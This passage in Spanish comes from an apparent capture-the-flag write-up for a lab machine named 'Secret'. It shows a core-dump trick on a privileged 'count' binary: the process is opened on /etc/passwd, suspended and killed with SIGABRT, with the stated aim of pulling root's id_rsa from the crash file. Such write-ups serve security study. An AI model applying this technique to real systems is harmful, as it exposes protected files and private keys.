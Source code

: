 ```
```

Analizando el código de `count.c`, observamos que la generación de `coredumps` está activada

![](/assets/img/Secret/image_9.png)

Por lo tanto al `abortar` el `proceso` estamos generando un `coredump` el cual está en `/var/crash`

```
dasith@secret:/opt$ ./count
Enter source file/directory name: /etc/passwd

Total characters = 1881
Total words      = 51
Total lines      = 36
Save results a file? [y/N]: y
Path: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   1237 pts/0    00:00:00 sh
   1238 pts/0    00:00:00 bash
   1373 pts/0    00:00:00 count
   1374 pts/0    00:00:00 ps
dasith@secret:/opt$ kill -ABRT 1373
dasith@secret:/opt$ fg
./count
Aborted (core dumped)
```

Vamos a obtener la `id_rsa` del usuario `root` mediante este método
